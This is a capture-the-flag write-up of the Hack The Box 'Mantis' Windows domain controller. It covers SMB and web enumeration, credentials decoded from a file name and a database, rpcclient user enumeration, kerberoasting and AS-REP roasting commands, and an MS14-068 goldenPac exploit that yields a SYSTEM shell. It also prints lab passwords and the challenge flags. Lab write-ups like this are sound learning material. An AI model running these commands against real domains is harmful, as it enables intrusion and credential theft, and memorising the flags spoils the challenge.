**Skills Required**
● Intermediate/advanced knowledge of
Windows Server
● Knowledge of domain controllers
**Skills Learned**
● Enumerating SQL Server Express
databases
● Exploiting domain controllers and
Kerberos

port 88 (jkerberos)
port 445 (smb)
port 135 (ldap)

Utilizing port 445(smb), I utilize crackmapexec to collect additional information about the victim's machines.
``` 
❯ crackmapexec smb 10.10.10.52

SMB         10.10.10.52     445    MANTIS           [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:MANTIS) (domain:htb.local) (signing:True) (SMBv1:True)
```

Crackmapexec provided me some information , such as the domain name, which I then saved in my hosts file.

Next I attempted to use smbmap to list the shared drivers. However, I encountered an  "Authentication error ". This indicates that I need credentials to access the shared drivers.

I began by enumerating the http ports on the website
``` bash
10.10.10.52:1337 # The typical IIS7 image
# enumerate with wfuzz or gobuster
gobuster dir -u http://10.10.10.52:1337/ -w /usr/share/seclist.... --add-slash -x php,html,txt

# Waiting for the gobuster scan I enumerate another port
10.10.10.52:8080 # Some blog and panel login -> Nothing interesant

```

After gobuster finished the scan, the tool discovered two directories: "orchard" and "secure_notes"
When I checked the  "secure_notes" directory, I found a .txt file containing some instructions. The file's name appeared to be a string encoded in base64.
``` bash
dev_notes_NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx.txt.txt
1. Download OrchardCMS
2. Download SQL server 2014 Express ,create user "admin",and create orcharddb database
3. Launch IIS and add new website and point to Orchard CMS folder location.
4. Launch browser and navigate to http://localhost:8080
5. Set admin password and configure sQL server connection string.
6. Add blog pages with admin user.
```

After decoding the string, I obtained a hexadecimal string. To reverse it, I used the "xxd" tool

``` bash
❯ echo "NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx" | base64 -d | xxd -ps -r; echo
m$$ql_S@_P@ssW0rd!
```

I obtained credential and information from the note, Port 1433 is associated with the Microsoft SQL Server service , and I can attempt to connect to it using these credentials.

```
blog_Orchard_Users_UserPartRecord
2	admin		admin	AL1337E2D6YHm0iIysVzG8LA76OozgMSlyOJk1Ov5WCGK+lgKY6vrQuswfWHKZn2+A==	Hashed
15	James	james@htb.local	james	J@m3s_P@ssW0rd!	Plaintext

	james J@m3s_P@ssW0rd!
```

I obtain credentials and then verify them using crackmapexec
``` 
❯ crackmapexec smb 10.10.10.52 -u 'james' -p 'J@m3s_P@ssW0rd!'
SMB         10.10.10.52     445    MANTIS           [*] Windows Server 2008 R2 Standard 7601 Service Pack 1 x64 (name:MANTIS) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.52     445    MANTIS           [+] htb.local\james:J@m3s_P@ssW0rd! 
```

These credentials are valid, I am using them to enumerate domain users with rpcclient
``` 
rpcclient -U 'james%J@m3s' 10.10.100.52 -c "enumdomgroups"
rpcclient -U 'james%J@m3s' 10.10.100.52 -c "querygroupmem 0x200"
rpcclient -U 'james%J@m3s' 10.10.100.52 -c "queryuser 0x1f4"
```

When I receive a username, I always check for "ASREProast Attack" and "kerberoasting attack"
``` bash
GetNPUsers htb.local/ -no-pass -usersfile users -> ASREProast attacl
GetUserSPNs htb.local/james@10.10.10.52 -> kerberoasting attack
```

As the user james I can't do anything for the moment

I'm going to gather information and potential attack vectors with bloodhound
``` bash
bloodhound-python -c ALL -ns 10.10.10.52 -d htb.local -u 'james' -p 'J@m3s----'
neo4j console
bloodhound
```

The Bloodhound tool didn't provide me with any interesting results.
I need search for more information. I'm using the repository "PayloadsAllTheThings/Methodology and Resources/Active Directory Attack.md(ms14-068)" https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#from-cve-to-system-shell-on-dc
``` bash
goldenPac.py htb.local/james@10.10.10.52 #this give me another domian, I save it in my hosts file (mantis and mantis.htb.local)

❯ goldenPac.py htb.local/james@mantis
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

Password:
[*] User SID: S-1-5-21-4220043660-4019079961-2895681657-1103
[*] Forest SID: S-1-5-21-4220043660-4019079961-2895681657
[*] Attacking domain controller mantis.htb.local
[*] mantis.htb.local found vulnerable!
[*] Requesting shares on mantis.....
[*] Found writable share ADMIN$
[*] Uploading file HrJEEonA.exe
[*] Opening SVCManager on mantis.....
[*] Creating service oCvV on mantis.....
[*] Starting service oCvV.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

I gained acces as "nt authority\system" simpy by exploiting the MS14-068 vulnerability with goldenPac tool
	User flag 5abd3b98a6326562c93825ac30d63da1
root flag cdc2ac1467172cda8f8b6fbdf008300c




